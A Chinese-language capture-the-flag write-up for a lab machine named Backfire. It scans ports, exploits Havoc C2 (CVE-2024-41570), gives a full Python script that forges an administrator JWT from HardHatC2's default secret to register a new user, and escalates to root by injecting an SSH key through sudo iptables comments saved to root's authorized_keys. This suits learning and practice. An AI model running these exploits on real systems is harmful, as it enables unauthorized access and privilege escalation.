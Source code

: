```yaml
---
title: Backfire
date: 2025-09-19
weight: 643
tags:
  - linux
  - medium
  - adcs-esc1
  - pass-the-certificate
---
```



[[rustscan]] 端口扫描

```shell
PORT     STATE SERVICE  REASON
22/tcp   open  ssh      syn-ack ttl 63
443/tcp  open  https    syn-ack ttl 63
8000/tcp open  http-alt syn-ack ttl 63
```

8000 端口有http服务，访问找到两个文件

```
disable_tls.patch
havoc.yaotl
```

google搜索发现是 `havoc` 的RCE，找到 [[CVE-2024-41570]] 拿到 `ilya` 的权限。

在用户目录下，看见一个 `hardhat.txt`

```shell
ilya@backfire:~$ cat hardhat.txt
Sergej said he installed HardHatC2 for testing and  not made any changes to the defaults
I hope he prefers Havoc bcoz I don't wanna learn another C2 framework, also Go > C# 
```

google搜索 `HardHatC2` 的漏洞，找到一个 [越权RCE漏洞](https://blog.sth.sh/hardhatc2-0-days-rce-authn-bypass-96ba683d9dd7)

将所需要用到的端口内网穿透出来

```shell
ssh -i id_rsa ilya@10.10.11.49 -L 7096:127.0.0.1:7096 -L 5000:127.0.0.1:5000 -g
```

使用以下脚本创建一个管理员账户

```python
# @author Siam Thanat Hack Co., Ltd. (STH)
import jwt
import datetime
import uuid
import requests
 
rhost = '127.0.0.1:5000'
 
# Craft Admin JWT
secret = "jtee43gt-6543-2iur-9422-83r5w27hgzaq"
issuer = "hardhatc2.com"
now = datetime.datetime.utcnow()
 
expiration = now + datetime.timedelta(days=28)
payload = {
    "sub": "HardHat_Admin",  
    "jti": str(uuid.uuid4()),
    "http://schemas.xmlsoap.org/ws/2005/05/identity/claims/nameidentifier": "1",
    "iss": issuer,
    "aud": issuer,
    "iat": int(now.timestamp()),
    "exp": int(expiration.timestamp()),
    "http://schemas.microsoft.com/ws/2008/06/identity/claims/role": "Administrator"
}
 
token = jwt.encode(payload, secret, algorithm="HS256")
print("Generated JWT:")
print(token)
 
# Use Admin JWT to create a new user 'sth_pentest' as TeamLead
burp0_url = f"https://{rhost}/Login/Register"
burp0_headers = {
  "Authorization": f"Bearer {token}",
  "Content-Type": "application/json"
}
burp0_json = {
  "password": "sth_pentest",
  "role": "TeamLead",
  "username": "sth_pentest"
}
r = requests.post(burp0_url, headers=burp0_headers, json=burp0_json, verify=False)
print(r.text)
```

然后进入后台，找到执行命令的终端，将自己的 `ssh-key` 写进 `sergej` 的 `authorized_keys` 中

ssh连上去，然后查看 `sudo -l` ，发现有如下权限

```shell
sergej@backfire:~$ sudo -l
Matching Defaults entries for sergej on backfire:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, use_pty

User sergej may run the following commands on backfire:
    (root) NOPASSWD: /usr/sbin/iptables
    (root) NOPASSWD: /usr/sbin/iptables-save
```

找到参考文章 [[从sudo iptables到本地权限提升的旅程]]

构造以下内容，将自己的ssh公钥写进root用户的 `authorized_keys` 中，然后ssh连接root用户

```shell
sudo /usr/sbin/iptables -A INPUT -i lo -j ACCEPT -m comment --comment $'\n ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIHjrHDPIy3BQDcGbfw9i8QbnIKMpWdLQb4WEDueDYfcb \n'
sudo /usr/sbin/iptables -S
sudo /usr/sbin/iptables-save -f /root/.ssh/authorized_keys
```